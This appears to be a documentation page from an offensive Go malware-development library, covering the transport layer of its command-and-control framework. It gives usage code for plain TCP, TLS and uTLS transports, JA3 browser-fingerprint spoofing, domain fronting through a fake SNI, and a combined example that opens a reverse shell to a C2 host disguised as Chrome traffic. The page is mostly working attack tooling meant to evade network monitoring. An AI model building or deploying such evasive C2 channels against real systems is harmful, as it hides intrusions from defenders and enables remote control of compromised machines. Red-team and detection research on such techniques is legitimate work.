



# Transport Layer (TCP, TLS, uTLS)

[<- Back to C2 Overview](README.md)

**MITRE ATT&CK:** [T1573.002 - Encrypted Channel: Asymmetric Cryptography](https://attack.mitre.org/techniques/T1573/002/)
**D3FEND:** [D3-DNSTA - DNS Traffic Analysis](https://d3fend.mitre.org/technique/d3f:DNSTrafficAnalysis/)

---

## For Beginners

When a reverse shell or stager talks to the C2 server, the connection itself can give you away. Plain TCP is visible to any network monitor. TLS encrypts the traffic, but Go's default TLS has a unique fingerprint (JA3 hash) that screams "this is a Go program, not a browser."

**All communication is encrypted and disguised to look like normal Chrome browsing.** The uTLS library crafts a TLS ClientHello that is byte-identical to Chrome's, Firefox's, or Safari's. Network monitors see what looks like a normal browser visiting a website, not a C2 callback.

---

## How It Works

### Transport Interface

All transports implement a single interface, making them interchangeable:

```go
type Transport interface {
    io.ReadWriteCloser
    Connect(ctx context.Context) error
    RemoteAddr() net.Addr
}
```

### Transport Comparison



### JA3 Fingerprint Spoofing

JA3 is a method for fingerprinting TLS clients by hashing the ClientHello fields (cipher suites, extensions, elliptic curves). Every TLS client has a unique JA3 hash.



### Certificate Pinning

Both TLS and uTLS transports support SHA256 certificate pinning to prevent MITM attacks:



---

## Usage

### Plain TCP

```go
import (
    "time"
    "github.com/oioio-space/maldev/c2/transport"
)

trans := transport.NewTCP("10.0.0.1:4444", 10*time.Second)
```

### Standard TLS with Client Certificates

```go
trans := transport.NewTLS("10.0.0.1:443", 10*time.Second,
    "client.crt", "client.key",
    transport.WithInsecure(true),
)
```

### TLS with Certificate Pinning

```go
trans := transport.NewTLS("10.0.0.1:443", 10*time.Second,
    "", "", // no client cert
    transport.WithFingerprint("A1B2C3D4E5F6..."), // SHA256 of server cert
)
```

### uTLS with JA3 Spoofing (Chrome)

```go
trans := transport.NewUTLS("10.0.0.1:443", 10*time.Second,
    transport.WithJA3Profile(transport.JA3Chrome),
    transport.WithUTLSInsecure(true),
)
```

### uTLS with Domain Fronting

```go
trans := transport.NewUTLS("cdn.example.com:443", 10*time.Second,
    transport.WithJA3Profile(transport.JA3Firefox),
    transport.WithSNI("legitimate-cdn.com"), // SNI differs from actual host
    transport.WithUTLSFingerprint("AABB..."),
)
```

### Factory: Config-Driven Transport Selection

```go
trans, err := transport.New(&transport.Config{
    Address:        "10.0.0.1:443",
    Timeout:        10 * time.Second,
    UseTLS:         true,
    TLSCertPath:    "client.crt",
    TLSKeyPath:     "client.key",
    TLSInsecure:    true,
    TLSFingerprint: "A1B2C3...",
})
```

---

## Combined Example: uTLS Shell with Cert Pinning

```go
package main

import (
    "context"
    "time"

    "github.com/oioio-space/maldev/c2/shell"
    "github.com/oioio-space/maldev/c2/transport"
)

func main() {
    // Chrome-fingerprinted TLS with certificate pinning
    trans := transport.NewUTLS("c2.example.com:443", 10*time.Second,
        transport.WithJA3Profile(transport.JA3Chrome),
        transport.WithUTLSFingerprint("A1B2C3D4E5F6..."),
    )

    sh := shell.New(trans, &shell.Config{
        MaxRetries:    0,
        ReconnectWait: 5 * time.Second,
        MaxBackoff:    5 * time.Minute,
        JitterFactor:  0.25,
    })

    sh.Start(context.Background())
}
```

---

## Advantages & Limitations

### Advantages

- **Interface-based**: All transports implement `Transport` -- consumers are decoupled
- **JA3 spoofing**: uTLS mimics Chrome, Firefox, Edge, or Safari ClientHello byte-for-byte
- **Cert pinning**: SHA256 fingerprint verification on both TLS and uTLS transports
- **Domain fronting**: Custom SNI support for CDN-based traffic routing
- **Factory pattern**: `transport.New(cfg)` creates the right transport from a config struct

### Limitations

- **uTLS maintenance**: Browser fingerprints evolve -- requires `utls` library updates
- **No HTTP/2**: uTLS supports TLS 1.3 but does not handle HTTP/2 multiplexing
- **No proxy support**: Direct TCP dial only -- SOCKS/HTTP proxy not implemented
- **Client certs on uTLS**: Client certificate authentication not supported with uTLS

---

## Compared to Other Implementations

| Feature | maldev | Sliver | Cobalt Strike | Mythic |
|---------|--------|--------|---------------|--------|
| TCP | Yes | Yes | Yes | Yes |
| TLS | Yes | Yes | Yes | Agent-specific |
| JA3 spoofing | Yes (uTLS) | Yes | Malleable C2 | No |
| Cert pinning | Yes (SHA256) | Yes | Yes | Agent-specific |
| Domain fronting | Yes (SNI) | Yes | Yes | Agent-specific |
| Profiles | Chrome/Firefox/Edge/Safari | Chrome | Custom | N/A |
| Interface-based | Yes | Internal | Internal | Internal |

---

## API Reference

### Transport Interface

```go
type Transport interface {
    io.ReadWriteCloser
    Connect(ctx context.Context) error
    RemoteAddr() net.Addr
}
```

### TCPTransport

```go
func NewTCP(address string, timeout time.Duration) *TCPTransport
```

### TLSTransport

```go
func NewTLS(address string, timeout time.Duration, certPath, keyPath string, opts ...TLSOption) *TLSTransport
func WithInsecure(insecure bool) TLSOption
func WithFingerprint(fp string) TLSOption
```

### UTLSTransport

```go
func NewUTLS(address string, timeout time.Duration, opts ...UTLSOption) *UTLSTransport
func WithJA3Profile(p JA3Profile) UTLSOption
func WithSNI(sni string) UTLSOption
func WithUTLSInsecure(insecure bool) UTLSOption
func WithUTLSFingerprint(fp string) UTLSOption
```

### JA3 Profiles

```go
const (
    JA3Chrome  JA3Profile = iota // Chrome TLS fingerprint
    JA3Firefox                    // Firefox TLS fingerprint
    JA3Edge                       // Edge TLS fingerprint
    JA3Safari                     // Safari TLS fingerprint
    JA3Go                         // Default Go (no spoofing)
)
```

### Factory

```go
func New(cfg *Config) (Transport, error)

type Config struct {
    Address        string
    Timeout        time.Duration
    UseTLS         bool
    TLSCertPath    string
    TLSKeyPath     string
    TLSInsecure    bool
    TLSFingerprint string
}
```
